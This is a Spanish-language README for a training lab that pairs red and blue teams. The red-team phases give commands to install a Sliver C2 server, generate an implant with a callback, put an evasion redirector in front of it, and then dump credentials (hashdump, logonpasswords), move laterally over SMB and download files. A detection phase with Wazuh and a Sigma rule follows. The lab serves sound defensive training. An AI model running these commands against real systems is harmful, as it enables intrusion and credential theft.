

# 🔴 Lab redteam-c2-01: Red Team C2 Operations

> Despliega un C2 covert channel, evadiendo detección, y documenta qué vio el defender.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:
- [ ] Desplegar un servidor Sliver C2
- [ ] Generar implantes con ofuscación
- [ ] Configurar un redirector Nginx para evadir filtrado
- [ ] Ejecutar post-exploitation (privilege escalation, lateral movement)
- [ ] Configurar Wazuh para detectar activity del C2
- [ ] Documentar qué vio el defender vs qué hizo el attacker
- [ ] Crear Sigma rules para detección

## 📋 Requisitos

- Docker >= 24.0
- 8GB RAM mínimo
- Conocimientos: Red Team basics, Linux, Windows

## 🚀 Setup

```bash
cd labs/avanzado/redteam-c2-01
docker-compose up -d

# Verificar servicios
docker-compose ps
```

## 📝 Instrucciones

### Fase 1: Red Team — Setup C2 (30 min)

1. **Acceder al C2 Server:**
```bash
docker exec -it redteam-c2-01_sliver_1 bash
# Instalar Sliver
curl -sSL https://sliver.sh/install | bash
```

2. **Generar implante:**
```bash
sliver-server &
sliver-server > /dev/null 2>&1 &
sleep 5

# Generar implante para Windows
sliver> generate --mtls 10.0.30.20 --os windows --arch amd64 --save /shared/implant.exe
```

3. **Configurar redirector:**
```nginx
# /etc/nginx/sites-available/c2
server {
    listen 443 ssl;
    server_name redirector.lab.local;
    
    ssl_certificate /etc/ssl/certs/lab.crt;
    ssl_certificate_key /etc/ssl/private/lab.key;
    
    location / {
        proxy_pass https://10.0.30.30:8443;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}
```

### Fase 2: Red Team — Exploitation (30 min)

1. **Transferir implante al target:**
```bash
# Desde el attacker
docker cp shared/implant.exe redteam-c2-01_target_1:/tmp/
```

2. **Ejecutar en el target:**
```powershell
# En el target Windows
C:\Users\victim\Desktop\implant.exe
```

3. **Establecer sesión C2:**
```bash
# En el C2 Server
sliver> sessions
sliver> interact <session-id>
sliver> whoami
sliver> shell
```

### Fase 3: Red Team — Post-Exploitation (30 min)

```bash
# 1. Información del sistema
sliver> systeminfo
sliver> ipconfig

# 2. Escalada de privilegios
sliver> getsystem

# 3. Credenciales
sliver> hashdump
sliver> logonpasswords

# 4. Lateral movement
sliver> lateral move --target 10.0.30.41 --method smb

# 5. Data exfiltration
sliver> download C:\Users\victim\Documents\sensitive.xlsx
```

### Fase 4: Blue Team — Detección (30 min)

1. **Revisar logs de Wazuh:**
```bash
# Acceder a Wazuh Dashboard
# http://10.0.30.50:5601
# Creds: admin / admin
```

2. **Buscar eventos de ejecución:**
- Agent → Security Events → Process Creation
- Buscar: `powershell.exe`, `cmd.exe`, `implant.exe`

3. **Buscar conexiones de red:**
- Agent → Security Events → Network Connection
- Buscar: puerto 4444, IPs externas

4. **Crear Sigma rules:**
```yaml
title: Sliver C2 Beacon Activity
id: lab-redteam-c2-01
status: experimental
detection:
  selection:
    EventID: 3
    Image|endswith: '\implant.exe'
    DestinationPort: 4444
  condition: selection
level: critical
```

### Fase 5: Documentación (30 min)

Crear reporte con:
1. **Timeline del ataque** — qué se hizo y cuándo
2. **Qué detectó Wazuh** — qué vio el defender
3. **Qué NO detectó** — gaps de visibilidad
4. **Detection rules** — Sigma rules para cerrar gaps
5. **Remediaciones** — cómo prevenir este ataque

## 📊 Métricas del Lab

| Métrica | Objetivo |
|---------|----------|
| C2 beacon recibido | ✅ |
| Post-exploitation completado | ✅ |
| Detección en Wazuh | < 60 segundos |
| Sigma rules creadas | ≥ 3 |
| Reporte completo | ✅ |

## 🗂️ Estructura de archivos

```
redteam-c2-01/
├── README.md
├── docker-compose.yml
├── attacker/
│   └── Dockerfile
├── c2-server/
│   └── Dockerfile
├── target/
│   └── Dockerfile
├── siem/
│   └── docker-compose.yml
├── rules/
│   └── sigma-rules/
└── reports/
    └── template.md
```

## ⚠️ Disclaimer

Este lab es **exclusivamente educativo**. Las técnicas aquí documentadas deben usarse únicamente en entornos de laboratorio controlados y autorizados.

---

*Última actualización: Agosto 2026*
*CyberDefense-Pro-Network — Aprende haciendo. Demuestra con evidencia.*
